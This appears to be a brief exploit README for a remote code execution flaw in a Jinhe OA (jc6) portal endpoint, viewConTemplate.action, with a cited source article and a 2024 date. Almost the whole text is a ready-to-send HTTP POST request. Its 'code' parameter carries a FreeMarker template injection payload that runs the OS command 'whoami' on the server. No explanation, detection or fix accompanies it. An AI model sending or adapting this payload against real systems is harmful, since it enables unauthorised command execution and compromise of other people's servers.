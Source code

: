 # jinhe_viewConTemplate.action_rce

from: https://mp.weixin.qq.com/s/Tnk1sSdvdFyRnluz1DJl6A
2024.3.18 @2

```
POST /jc6/platform/portalwb/portalwb-con-template!viewConTemplate.action HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

moduId=1&code=<clob>${"freemarker.template.utility.Execute"?new()("whoami")}</clob>&uuid=1
```
